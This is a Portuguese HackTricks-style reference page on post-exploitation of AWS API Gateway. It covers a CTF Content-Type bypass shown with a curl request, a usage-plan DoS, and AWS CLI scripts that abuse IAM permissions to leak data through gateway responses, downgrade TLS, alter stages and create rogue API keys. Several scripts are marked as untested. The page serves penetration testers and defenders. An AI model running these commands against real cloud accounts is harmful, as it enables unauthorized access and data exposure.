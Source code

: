 # AWS - API Gateway Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## API Gateway

Para mais informações, confira:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acessar APIs não expostas

Você pode criar um endpoint em [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) com o serviço `com.amazonaws.us-east-1.execute-api`, expor o endpoint em uma rede onde você tenha acesso (potencialmente via uma máquina EC2) e atribuir um grupo de segurança permitindo todas as conexões.\
Então, a partir da máquina EC2, você poderá acessar o endpoint e, portanto, chamar a API do gateway que não estava exposta anteriormente.

### Bypass Request body passthrough

Esta técnica foi encontrada em [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Como indicado na [**documentação da AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) na seção `PassthroughBehavior`, por padrão, o valor **`WHEN_NO_MATCH`**, ao verificar o cabeçalho **Content-Type** da solicitação, passará a solicitação para o back end sem transformação.

Portanto, no CTF, o API Gateway tinha um template de integração que estava **impedindo que a flag fosse exfiltrada** em uma resposta quando uma solicitação era enviada com `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

No entanto, enviar uma solicitação com **`Content-type: text/json`** impediria esse filtro.

Finalmente, como o API Gateway estava permitindo apenas `Get` e `Options`, era possível enviar uma consulta arbitrária do dynamoDB sem nenhum limite, enviando uma solicitação POST com a consulta no corpo e usando o cabeçalho `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planos de Uso DoS

Na seção **Enumeração**, você pode ver como **obter o plano de uso** das chaves. Se você tiver a chave e ela estiver **limitada** a X usos **por mês**, você poderia **apenas usá-la e causar um DoS**.

A **Chave da API** só precisa ser **incluída** dentro de um **cabeçalho HTTP** chamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` pode **modificar uma Resposta de Gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executem scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateStage` e `apigateway:CreateDeployment` pode **modificar um estágio existente do API Gateway para redirecionar o tráfego para um estágio diferente ou alterar as configurações de cache para obter acesso não autorizado a dados em cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso não autorizado a dados em cache, interrompendo ou interceptando o tráfego da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` pode **modificar a resposta do método de um método REST API existente do API Gateway para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executam scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` pode **modificar as configurações da API Gateway REST API para desativar o registro ou alterar a versão mínima do TLS, potencialmente enfraquecendo a segurança da API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Enfraquecendo a segurança da API, permitindo potencialmente acesso não autorizado ou expondo informações sensíveis.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Um atacante com permissões `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` pode **criar novas chaves de API, associá-las a planos de uso e, em seguida, usar essas chaves para acesso não autorizado às APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acesso não autorizado a recursos da API, contornando controles de segurança.

{% hint style="info" %}
Necessita de teste
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
